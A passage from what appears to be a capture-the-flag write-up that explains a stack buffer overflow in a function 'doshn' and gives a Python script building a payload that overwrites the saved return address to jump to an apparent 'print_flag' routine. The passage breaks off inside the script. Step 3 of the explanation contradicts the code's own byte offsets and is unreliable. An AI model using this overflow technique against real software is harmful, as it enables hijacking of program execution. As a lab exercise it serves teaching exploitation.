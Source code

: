 1. **First `(` sets up a “start index.”**  
   - The very first `(` in the input sets `version_start = idx + 1`. We can decide at which `idx` that happens by prepending junk bytes.  

2. **Refill `comment[0..127]` exactly once**.  
   - After the first `(`, we send 128 filler bytes, which fill `comment[0..127]` without overflow.  
   - This ensures the next writes go out of bounds in a fully predictable way.

3. **Second `(` resets `version_start` again.**  
   - When the second `(` arrives at a known `idx`, it performs `version_start = idx + 1`.  
   - From that moment on, each new byte lands at `comment[idx - version_start]`.  
   - If we send 248 bytes after that point, then the _first_ of those 248 lands in `comment[248]`, which is the saved-RIP slot.  

4. **Overwrite saved-RIP with a chosen 8-byte address.**  
   - We craft eight little-endian bytes immediately after those 248 filler bytes. This overwrites the saved-RIP.  

5. **Send `')'` to break the loop** (no write on that iteration).  
   - This prevents further writes from corrupting other locals or messing up `version_start`/`idx`.  
   - Then the function does a `ret`, popping our overwritten value into `%rip`.

By carefully counting bytes, we can place any 64-bit address into saved-RIP and force execution to jump there when `doshn` returns.

---

## 3. Payload Construction (`payload.bin`)

Below is the Python snippet that creates a 387-byte payload. We annotate every region by its “loop index” (`idx`) and show where saved-RIP gets overwritten:

```python
# 8‐byte return address we want (e.g. address of print_flag)
# Little-endian: 0x004241f2 -> b"\xf2\x41\x42\x00\x00\x00\x00\x00"
MANUAL_RIP = b"\xf2\x41\x42\x00\x00\x00\x00\x00"

blob = b"("
# idx = 0 -> version_start := 1
# (No write into comment[] on this byte.)

blob += b"A" * 128
# idx = 1..128 -> comment[idx - 1] = 'A'
# After idx=128, comment[0..127] is fully “A”. Now idx -> 129.

blob += b"("
# idx = 129 -> version_start := 130
# (No write on this byte.)
# Now idx -> 130.

# At idx=130, “idx - version_start = 0.” Next writes land in comment[0..].
# To reach saved-RIP (offset 248), send 248 filler bytes “B”:
blob += b"B" * 248
#   idx=130..257 (128 B’s) refill comment[0..127].
#   idx=258..377 (120 B’s) overflow into comment[128..247] (locals & saved-RBP).

# Now idx = 378. (378 - 130 = 248) -> offset 248 = saved-RIP LSB.
# Overwrite saved-RIP (8 bytes):
blob += MANUAL_RIP
# idx = 378..385 -> comment[248..255] = "\xf2\x41\x42\x00\x00\x00\x00\x00"

# Finally, idx=386 -> send “)” to break the loop (no write):
blob += b")"
# Loop ends; doshn will call ret, popping 0x004241f2 into RIP.

with open("payload.bin", "wb") as f:
```